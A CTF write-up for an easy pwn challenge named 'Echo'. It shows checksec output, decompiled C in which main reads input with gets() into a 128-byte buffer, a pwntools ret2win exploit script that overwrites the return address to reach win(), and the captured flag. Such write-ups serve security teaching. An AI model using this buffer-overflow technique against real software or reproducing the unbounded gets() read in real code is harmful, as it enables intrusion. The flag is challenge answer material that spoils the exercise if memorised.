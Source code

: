 # Echo

{% hint style="info" %}
Category: PWN

Difficulty: easy
{% endhint %}

## Description

> **Author**: @awesome10billion
>
> I made my own echo program. my own echo program.
>
> **Attachments**: _echo_

## Solve Walkthrough

* This is an easy pwn challenge.
* A classic PWN ret2win challenge, we must hijack the control flow to **win** function.
* Check the ELF protection with `checksec`:

{% code overflow="wrap" %}
```bash
[*] '/home/hurtz4eva/Nextcloud/CTF/international/2025/snykCTF/pwn/Echo/echo'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
{% endcode %}

* Nothing protect us from ret2win attack.
* The ELF information is 64-bit and using LE (_little endian_) format.
* Let's discover list of function symbols inside the ELF binary. I'm using Ghidra in this case.

<figure><img src="../../.gitbook/assets/img03.png" alt=""><figcaption></figcaption></figure>

* Here's the decompiled code of `main`  and `win` functions.

{% tabs %}
{% tab title="main" %}
```c
undefined8 main(EVP_PKEY_CTX *param_1)
{
  char local_88 [128]; // 0x80 bytes (HEX).
  
  init(param_1);
  puts("Give me some text and I\'ll echo it back to you: ");
  gets(local_88);
  puts(local_88);
  return 0;
}
```
{% endtab %}

{% tab title="win" %}
```c
void win(void)
{
  int iVar1;
  FILE *__stream;
  char local_11;
  
  __stream = fopen("flag.txt","r");
  if (__stream != (FILE *)0x0) goto LAB_0040126a;
  puts("Please create \'flag.txt\' in this directory with your own debugging flag.");
  FUN_00401120(0);
  do {
    putchar((int)local_11);
LAB_0040126a:
    iVar1 = fgetc(__stream);
    local_11 = (char)iVar1;
  } while (local_11 != -1);
  fclose(__stream);
  return;
}
```
{% endtab %}
{% endtabs %}

* Simply, we've to hijack control flow with **ret2win attack**, so we can start executing `win` function after `ret` main.
* Here's my exploit script for this challenge.

{% code title="exploit.py" overflow="wrap" lineNumbers="true" %}
```python
#!/usr/bin/env python3
#filename: exploit.py

from pwn import *

context.binary = elf = ELF("./echo", checksec=0)
context.log_level = "debug"

# Prepare the payload.
win_addr = p64(elf.symbols['win'])
payload = b"A"*0x80 # --------------< Buff size.
payload += b"B"*0x8 # --------------< Old RBP.
payload += win_addr # --------------< Jump to win_addr.

# Send the payload.
is_remote = False # change to True if you want to run remotely.

if is_remote:
	io = remote("challenge.ctf.games", 31084)
else:
	io = elf.process()

io.sendline(payload)
io.interactive()
```
{% endcode %}

* Create a sample `flag.txt` file to run the exploit script locally. If it success, then we can run the exploit script remotely. Just change the `is_remote` variable to `True`.
* And we got the flag.

<figure><img src="../../.gitbook/assets/img04.png" alt=""><figcaption></figcaption></figure>

## Flag

<kbd>flag{4f4293237e37d06d733772a087299f17}</kbd>
